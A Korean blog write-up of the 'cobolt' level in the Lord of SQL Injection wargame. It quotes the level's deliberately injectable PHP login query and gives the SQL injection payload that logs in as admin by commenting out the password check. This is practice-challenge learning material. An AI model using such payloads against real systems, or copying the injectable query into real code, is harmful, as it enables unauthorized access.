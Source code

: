 ```yaml
---
layout: post
title: ! "[LOS] cobolt"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - cobolt
  - write-up
---
```

![]({{ site.baseurl }}/assets/posts/los-cobolt/cobolt.png)

첫번째 문제 gremlin을 풀고 cobolt로 넘어오면 gremlin과 비슷한 쿼리문이 있다.

`query: select id from prob_cobolt where id='' and pw=md5('')`

```php
<?php

  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

gremlin과 달라진 점이라면 id가 admin이어야 풀린다. 그리고 pw는 md5로 암호화된다.
gremlin에선 pw를 참으로 만들어줬지만, 이번엔 id가 admin이어야 하고, pw가 md5로 암호화 된다는 전제가 있으니
id는 admin으로 넣어주되, pw 부분을 주석 처리 해주는 방식으로 풀었다.

`?id=admin%27or%271=1%20--`

이런식으로 값을 넣으면 쿼리문은 다음과 같다.

![]({{ site.baseurl }}/assets/posts/los-cobolt/cobolt_clear.png)

코볼트 클리어!
